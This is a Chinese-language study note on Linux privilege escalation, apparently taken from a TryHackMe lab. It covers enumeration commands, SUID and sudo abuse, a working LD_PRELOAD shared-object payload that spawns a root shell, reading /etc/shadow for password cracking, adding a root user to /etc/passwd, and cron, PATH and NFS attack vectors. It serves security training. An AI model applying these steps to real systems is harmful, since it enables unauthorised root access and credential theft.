# 权限提升

privilege escalation

从本质上讲，权限提升通常涉及从低权限帐户到高权限帐户。

从技术上讲，它是利用操作系统或应用程序中的漏洞、设计缺陷或配置错误，获得对由用户限制资源的未授权访问。

一旦获得系统管理员级别的访问权限，即可进行如下操作：

* 重置密码
* 绕过访问控制，泄露受保护的数据
* 编辑软件配置
* 持久性
* 更改用户权限
* 执行任何命令
# 枚举

Enumeration

## 枚举命令

* `hostname #返回计算机的主机名`：可以提供关于目标系统在公司网络中的角色的信息
* Uname -a：打印系统信息，提供系统使用内核的详细信息。可以用于搜索潜在的用来权限提升的内核漏洞
* proc文件系统（procfs）：提供了有关目标系统进程的信息
* /proc/version：内核版本的信息和其他数据，例如是否安装了编译器(例如GCC)
* /etc/issue：包含有关操作系统的一些信息，但可以很容易自定义设置或更改
* ps：查看系统中运行的进程
  * `ps -A` :查看所有正在运行的进程
  * `ps axjf` :查看进程树( `ps axjf` 运行之前树的形成)
  * `ps aux` :  `aux` 选项将显示所有用户的进程(a)，显示启动进程的用户(u)，以及显示未连接到终端的进程(x)。可以更好地挖掘系统的潜在漏洞
* `env` ：将显示环境变量
  * PATH变量可以包含编译器或脚本语言(例如Python)，可用于在目标系统上运行代码或用于权限提升
* `sudo -l`：列出用户通过 `sudo` 可以执行的所有命令
* `ls -la`：寻找潜在的权限提升向量时使用-la参数，使用-l很容易漏掉"secret.txt"
* `id`：提供用户特权级别和组成员关系
* `/etc/passwd`：发现系统上用户
  * `Cat /etc/passwd | cut -d ":" -f 1`：剪切并转换为可以用于暴力攻击的列表
  * `Cat /etc/passwd `：返回所有用户，但是system或服务用户不会很有用
  * `Cat /etc/passwd | gerp home`：真正的用户有可能在home目录下
* `history`：对目标系统有一些了解，但是很少会存储密码或用户名等
* `ifconfig`
  * `ip route`：显示已知的网络路由信息
* `netstat`：检查现有的接口和网络路由
  * `netstat -a`：展示所有侦听端口和已建立的连接
  * `netstat -at``netstat -au` 也可以用来分别列出TCP或UDP协议
  * `netstat -l` :列出处于监听模式的端口，可以和“t”选项一起使用 仅列出使用TCP协议侦听的端口
  * `netstat -s` :按协议列出网络使用统计信息
  * `netstat -tp` :列出与服务名和PID的连接信息
    * 有些进程不属于该用户，“PID/Program name”会显示空信息，使用特权用户再次执行可以显示此列信息
  * `netstat -i` :显示接口统计信息
  * `netstat -ano`
    * `-a` :显示所有套接字
    * `-n` :不解析主机名
    * `-o`：显示timer
* Find 命令
  * `find . -name flag1.txt` :在当前目录中找到名为" flag1.txt "的文件 
  * `find /home -name flag1.txt` :在/home目录查找" flag1.txt”
  * `find / -type d -name config` :在“/”下找到名为config的目录
  * `find / -type f -perm 0777` :查找权限为777的文件 (所有用户可读、可写、可执行的文件)
  * `find / -perm a=x` :查找可执行文件
  * `find /home -user frank` :在/home目录查找用户“frank”的所有文件 
  * 按XX查找
    * `find / -``**m**``time 10` :查找最近10天内被修改的文件 modify
    * `find / -atime 10` :查找最近10天内被访问过的文件 access
    * `find / -cmin -60` :查找最近一小时内更改的文件
    * `find / -amin -60` :查找最近一小时被访问过的文件
    * `find / -size 50M` :查找50 MB大小的文件
  * 也可以与(+)和(-)符号一起使用来指定a 大于或小于给定大小的文件
  * 使用`find`和`-type f 2>/dev/null`重定向到“/dev ull” 能够有更干净的输出
  * 查找所有用户可写文件夹
    * `find / -writable -type d 2>/dev/null`
    * `find / -perm -222 -type d 2>/dev/null`
    * `find / -perm -o w -type d 2>/dev/null`
    

  * 查找所有用户可执行文件夹
    * `find / -perm -o x -type d 2>/dev/null`
  * 查找开发工具和可支持的语言:
    * `find / -name perl*`
    * `find / -name python*`
    * `find / -name gcc*`
  * 查找特定的文件权限:
    * `find / -perm -u=s -type f 2>/dev/null` :查找具有SUID的文件 它允许我们以比当前用户更高的特权级别运行文件 

## 自动枚举工具

* **LinPeas**: <u>[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)</u>
  * 执行 linpeas.sh
* **LinEnum:**[https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)
* **LES (**<u>**Linux**</u>**Exploit Suggester):**[https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
* <u>**Linux**</u>**Smart Enumeration:**[https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
* <u>**Linux**</u>**Priv Checker:**[https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)


# 内核漏洞攻击

## 方法：

1. 识别内核版本
2. 搜索和查找 针对目标系统内核版本的漏洞攻击代码
3. 运行漏洞攻击程序

## 资料来源：

1. Google搜索
2. https://www.linuxkernelcves.com/cves类似的资源
3. 使用类似LES (Linux Exploit建议器)的脚本，<span style="color: #E0E1E4">这些工具可能会产生误报(报告一个不影响目标系统的内核漏洞)或漏报(不报告任何内核漏洞，尽管内核存在漏洞)</span>

## Notes：

1. 在谷歌、Exploit-db或searchsploit上搜索漏洞攻击程序时，详细说明i内核版本
2. 启动漏洞攻击程序之前，一定要弄清楚它的工作原理。一些漏洞攻击代码可以对操作系统进行更改，从而使它们在进一步使用时变得不安全，或者对系统进行不可逆的更改，从而在以后产生问题。
3. 有些漏洞攻击程序在运行后可能需要进一步的交互。请阅读漏洞攻击代码附带的所有注释和说明。
4. 可以使用 `SimpleHTTPServer`  Python模块和 `wget` 模块将漏洞攻击代码从你的计算机传输到目标系统

[【THM】Linux Privilege Escalation(Linux提权基础)-学习 - Hekeatsll - 博客园](https://www.cnblogs.com/Hekeats-L/p/16867299.html)

特权提升：sudo

> 在某些情况下，系统管理员可能需要为普通用户提供一定的权限灵活性。例如，初级 SOC 分析师可能需要经常使用 Nmap 工具，但没有被授予完全的 root 权限。在这种情况下，系统管理员可以允许该用户仅以 root 权限运行 Nmap 工具，而在系统其他部分仍保持其普通权限级别。


任何用户都可以使用 sudo -l命令来查看其当前的权限状态

[GTFOBins](https://gtfobins.github.io/)：提供了有关可能拥有sudo权限的任何程序的使用信息

应用程序功能提权

在环境中有些应用程序可能不会有漏洞，这时要有黑客思维。例如Apache2有一个选项，支持加载替代配置文件（ `-f` ：指定替代的ServerConfigFile）使用此选项加载 `/etc/shadow` 文件时，将会出现错误信息，其中包含 `/etc/shadow` 文件的第一行。

**利用LD_PRELOAD**

有些系统中，可能会有LD_PRELOAD环境选项,LD_PRELOAD 是一个允许任何程序使用共享库的功能。如果启用了 "env_keep" 选项，我们可以生成一个将在程序运行之前加载和执行的共享库。请注意，如果实际用户 ID 与有效用户 ID 不同，则 LD_PRELOAD 选项将被忽略


提权步骤：

1. 检查是否启用了LD_PRELOAD环境变量（并使用了env_keep选项）
2. 编写一个简单的C代码，并编译为共享对象(.so扩展名)文件
3. 使用sudo权限运行代码，并将LD_PRELOAD选项指向 .so文件

下面代码将直接创建一个root shell


```C
#include <stdio.h>
#include <sys/types.h> 包含 `` 头文件。
#include <stdlib.h>

void _init() { 无效 _init（） {
unsetenv("LD_PRELOAD"); 取消设置环境变量“LD_PRELOAD”。
setgid(0);
setuid(0);
system("/bin/bash"); 执行命令 "/bin/bash"
}
```

使用gcc按照以下参数将其编译为共享对象文件：

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

然后所有可以使用sudo运行的程序，都可以使用共享文件，在这个例子中，apache2、find或者所有可以使用sudo运行的程序都可以使用，需要通过指定选项来运行该程序：

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

特权提升：suid

Linux权限控制很大程度上依赖用户和文件的交互，由许可权来管理。根据用户的特权等级授予文件的读、写、执行权限，将会随SUID (Set-user Identification) 和 SGID (Set-group Identification)的改变而改变，suid和sgid允许根据文件所有者或组所有者拥有的特权等级来执行。这些文件会有一个“s”位来表示特殊权限级别

`find / -type f -perm -04000 -ls 2>/dev/null` 将列出设置了SUID或SGID位的文件



然后将列表中的可执行文件与[GTFOBins](https://gtfobins.github.io/)进行对比，上面的列表显示nano已经设置了SUID位，但CTFOBins中没有nano+suid，在实际提权场景中，需要找到中间步骤，能够帮助我们利用发现哪怕是很小的漏洞。

注意到，除了nano外，绑定的虚拟机有其他的suid二进制文件

拥有suid位的nano编辑器允许我们使用文件拥有者的权限去创建、编辑和读取文件。Nano是由root用户拥有的，这可能意味着我们可以以比当前用户更高的权限级别来读取和编辑文件。在这个阶段，我们有两个基本的权限提升选项:读取 `/etc/shadow` 文件或将我们的用户添加到 `/etc/passwd`

1. 读取 `/etc/shadow` file
    1. `nano /etc/shadow`可以打印shadow文件中的内容，然后可以使用unshadow工具创建一个可以由John the Ripper破解的文件，实现这一点需要`/etc/shadow`和`/etc/passwd`文件
    2. unshadow工具使用：`unshadow passwd.txt shadow.txt > passwords.txt`
    3. 然后使用John the Ripper工具破解，可能以明文的形式返回一个或几个密码
    4. [John the Ripper工具介绍：TryHackMe | Cyber Security Training](https://tryhackme.com/room/johntheripper0)
2. 添加一个具有root权限的新用户
    1. 生成新用户密码的哈希值，利用Kali Linux上的openssl工具：`openssl passed -l -salt THM password1`
    

    3. 然后，将这个密码和用户名添加到 `/etc/passwd`  文件
    

    5. 添加后，需要切换至此用户并希望拥有root权限，注意 `root:/bin/bash` 是如何使用的
    


权限提升:能力

使用 `getcap` 工具来列出已启用的功能

当以非特权用户运行时，`getcap -r /` 将产生大量错误，最好将错误消息重定向到 `/dev/null` ，语法`getcap -r / 2>/dev/null`

权限提升: `cron jobs`

Cron作业用于在特定时间运行脚本或二进制文件。默认情况下，它们以其所有者的权限运行，而不是当前用户的权限。正确配置的cron作业本身不会受到攻击，但它们可以在某些条件下提供权限提升向量。

如果有一个以root权限运行的计划任务，并且我们可以更改将要运行的脚本，那么我们的脚本将以root权限运行。

Cron任务配置存储为crontabs (Cron表)，以便查看任务下一次运行的时间和日期。系统上的每个用户都有自己的crontab文件，无论是否登录，都可以运行特定的任务。我们的目标是找到一个由root设置的cron任务，并让它运行我们的脚本，理想情况下是一个shell。

任何用户都可以在 `/etc/crontab`文件中读取保持系统范围的cron作业




这个例子中可以看到 `backup.sh` 脚本被配置为每分钟运行一次。该文件的内容显示了一个创建prices.xls文件备份的简单脚本。

Tips：

1. 根据可用的工具不同，命令语法也会有所不同。(例如 `nc` 可能不支持可以在其他情况下使用的 `-e` 选项)
2. 我们应该始终倾向于启动反向shell，为了避免在真正的渗透测试中破坏系统的完整性。

修改后的文件：


在攻击机器上运行一个监听器来接收传入的连接：



以下场景在网络安全性不够成熟的公司中很常见：系统管理员需要定期运行一个脚本，然后创建了一个cron任务来完成这项工作，过一段时间，脚本没用了，然后删除脚本，但是没有清理相关的cron工作。





上面的例子展示了一个类似的情况，即anti - virus.sh脚本被删除，但cron任务仍然存在。

如果没有定义脚本的完整路径(就像backup.sh脚本那样)，cron将引用/etc/crontab文件中path变量下列出的路径。在这种情况下，我们应该能够在用户的主文件夹下创建一个名为“anti - virus.sh”的脚本，它应该由cron作业运行。

目标系统上的文件：


传入的反向shell连接具有root权限:


如果能够找到附属于cron作业的脚本或任务，可以了解脚本的功能以及如何在环境中使用工具，例如tar、7z、rsync等可以利用通配符特性进行攻击。

权限提升：PATH

如果path路径中的用户具有写权限的文件夹，则可以劫持应用程序来运行脚本。PATH在Linux中是一个环境变量，它告诉操作系统在哪里搜索可执行文件。对于shell中没有内置的命令或者没有使用绝对path路径定义的命令，Linux会在PATH下的文件夹中搜索。(PATH是我们这里讨论的环境变量，path是文件的位置)。


利用PATH路径提权取决于目标系统的现有配置，尝试前回答以下问题：

1. $PATH下有什么文件夹
2. 当前的用户对这些文件夹是否有写权限
3. 可以启动的脚本/应用程序是否会受到此漏洞的影响?

示例：

使用以下脚本：



这个脚本试图启动一个名为“thm”的系统二进制文件，但是 示例可以很容易地用任何二进制文件复制。

编译为可执行文件并设置suid位



执行该程序，“path”将在PATH下列出的文件夹中查找名为“thm”的可执行文件

如果在我们可以创建名为thm的二进制文件下，有可写的文件夹， 则运行path脚本，作为SUID位创建一个名为THM的二进制文件，并以root权限运行

搜索可写文件夹命令：`find / -writable 2>/dev/null`


它与 PATH 比较将帮助我们找到可以使用的文件夹。


使用命令在/usr文件夹下搜索

`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u` 但是 /usr下的子文件夹不可写


 更容易写入的文件夹可能是/tmp，。因为/tmp是 PATH中不存在，所以我们需要添加它。正如我们在下面看到的， 使用“ `export PATH=/tmp:$PATH` ”命令可以完成此操作。


此时，path脚本也将在/tmp文件夹下查找名为“thm”的可执行文件，只需将/bin/bash复制到/ tmp文件夹的“thm” 


权限提升：NFS

权限提升向量不限于内部访问。共享文件夹和远程管理接口(如SSH和Telnet)也可以获得目标系统上的root访问权限。有些情况下还需要使用这两种方式，例如在目标系统上找到SSH根私钥，并以root权限通过SSH连接，而不是试图增加当前用户的权限级别。

与CTFs和tests更相关的另一个问题是配置错误的网络shell。当存在网络备份系统时，有时可以在渗透测试活动中看到此vector(攻击者利用的入口点或手段)。

NFS (Network File Sharing)配置保存在/etc/exports文件中。该文件是在NFS服务器安装期间创建的，用户通常可以读取该文件。



这个权限提升向量的关键元素是上面可以看到的“no_root_squash”选项。默认情况下，NFS将把root用户更改为nfsnobody，并剥夺任何文件的root权限。如果" no_root_squash "选项存在于可写共享中，我们可以创建一个设置了SUID位的可执行文件，并在目标系统上运行它。

1. 从攻击机器上枚举可挂载的共享。



1. 挂载一个“no_root_squash”共享到我们的攻击中 机器并开始构建我们的可执行文件。


因为我们可以设置SUID位，一个简单的可执行文件，将运行/bin/bash 将在目标系统上完成这项工作。



一旦我们编译代码，我们将设置SUID位。



在下面可以看到两个文件(nfs.c和nfs在 目标系统。我们已经在挂载共享上工作了，所以不需要转移)。


